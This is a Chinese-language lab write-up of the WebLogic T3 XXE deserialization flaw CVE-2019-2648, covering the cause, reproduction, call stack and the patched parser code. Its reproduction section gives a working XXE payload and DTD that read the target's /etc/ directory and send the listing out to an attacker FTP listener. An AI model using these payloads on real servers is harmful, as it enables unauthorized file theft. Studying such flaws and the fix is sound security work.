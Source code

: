 # Weblogic T3 XXE 反序列化漏洞-CVE-2019-2648

## 漏洞原理

该漏洞点在weblogic.wsee.reliability.WsrmServerPayloadContext#readEndpt方法解析**DocumentBuilderFactory**实例加载XML外部实体

## 漏洞复现

工具：VulnsDebug

在攻击机上创建一个目录，在该目录下创建空的my.dtd文件，然后开启http和ftp服务

mkdir xxe

cd xxe

touch my.dtd

python -m http.server 8000

python -m pyftpdlib 2121

 ![image-20221206185729162](D:/Desktop/%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90/Weblogic/Assets/Weblogic%20T3%20XXE%20%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E-2-CVE-2019-2648/image-20221206185729162.png) 

**生成序列化数据时会请求攻击机上的my.dtd文件，需要保证攻击机上的my.dtd文件为空文件**

创建test.xml文件（功能用于列出/etc/目录下文件）

```
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE ANY [
        <!ENTITY % file SYSTEM "file:///etc/">
        <!ENTITY % dtd SYSTEM "http://192.168.8.133:8000/my.dtd">
        %dtd;
      %ftp;
        ]>
<ANY>xxe</ANY>
```

运行VulnsDebug的Payload.XXE.CVE_2019_2648#main生成序列化文件

![image-20221206190744669](D:/Desktop/%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90/Weblogic/Assets/Weblogic%20T3%20XXE%20%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E-2-CVE-2019-2648/image-20221206190744669.png) 

<img src="D:/Desktop/%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90/Weblogic/Assets/Weblogic%20T3%20XXE%20%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E-2-CVE-2019-2648/image-20221206191938458.png" alt="image-20221206191938458" style="zoom:80%;" /> 

修改生成的序列化文件，在其中加入

%dtd;

![image-20221207000707215](D:/Desktop/%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90/Weblogic/Assets/Weblogic%20T3%20XXE%20%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E-2-CVE-2019-2648/image-20221207000707215.png) 

修改攻击机上的my.dtd文件后重启开启http服务

```
<!ENTITY % all
"<!ENTITY &#x25; ftp SYSTEM 'ftp://192.168.8.133:2121/%file;'>"
>
%all;
```

 ![image-20221207000321894](D:/Desktop/%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90/Weblogic/Assets/Weblogic%20T3%20XXE%20%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E-2-CVE-2019-2648/image-20221207000321894.png)

向服务器发送序列化数据

python weblogic_t3.py 192.168.8.139 7001 xxe/CVE-2019-2648.ser

![image-20221207001019736](D:/Desktop/%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90/Weblogic/Assets/Weblogic%20T3%20XXE%20%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E-2-CVE-2019-2648/image-20221207001019736.png)

攻击机http服务成功接收请求，ftp服务成功读取weblogic服务器/etc/目录下文件

![image-20221207001006664](D:/Desktop/%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90/Weblogic/Assets/Weblogic%20T3%20XXE%20%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E-2-CVE-2019-2648/image-20221207001006664.png)

## 漏洞分析

调用栈

```java
parse:116, DocumentBuilder (javax.xml.parsers)
readEndpt:148, WsrmServerPayloadContext (weblogic.wsee.reliability)
readExternal:107, WsrmServerPayloadContext (weblogic.wsee.reliability)
readExternalData:1835, ObjectInputStream (java.io)
readOrdinaryObject:1794, ObjectInputStream (java.io)
readObject0:1348, ObjectInputStream (java.io)
readObject:370, ObjectInputStream (java.io)
readObject:66, InboundMsgAbbrev (weblogic.rjvm)
read:38, InboundMsgAbbrev (weblogic.rjvm)
readMsgAbbrevs:283, MsgAbbrevJVMConnection (weblogic.rjvm)
init:213, MsgAbbrevInputStream (weblogic.rjvm)
dispatch:498, MsgAbbrevJVMConnection (weblogic.rjvm)
dispatch:330, MuxableSocketT3 (weblogic.rjvm.t3)
dispatch:387, BaseAbstractMuxableSocket (weblogic.socket)
readReadySocketOnce:967, SocketMuxer (weblogic.socket)
readReadySocket:899, SocketMuxer (weblogic.socket)
processSockets:130, PosixSocketMuxer (weblogic.socket)
run:29, SocketReaderRequest (weblogic.socket)
execute:42, SocketReaderRequest (weblogic.socket)
execute:145, ExecuteThread (weblogic.kernel)
run:117, ExecuteThread (weblogic.kernel)
```

## 漏洞修复

对DocumentBuilderFactory实例对象进行setFeature操作，禁止加载XML外部实体

修复后代码

```java
private EndpointReference readEndpt(ObjectInput var1, int var2) throws IOException, ClassNotFoundException {
        ...
ByteArrayInputStream var15 = new ByteArrayInputStream(var3);

    try {
        DocumentBuilderFactory var7 = DocumentBuilderFactory.newInstance();

        try {
            String var8 = "http://xml.org/sax/features/external-general-entities";
            var7.setFeature(var8, false);
            var8 = "http://xml.org/sax/features/external-parameter-entities";
            var7.setFeature(var8, false);
            var8 = "http://apache.org/xml/features/nonvalidating/load-external-dtd";
            var7.setFeature(var8, false);
            var7.setXIncludeAware(false);
            var7.setExpandEntityReferences(false);
        } catch (Exception var11) {
            if (verbose) {
                Verbose.log("Failed to set factory:" + var11);
            }
        }
        ...
}
```



## 参考

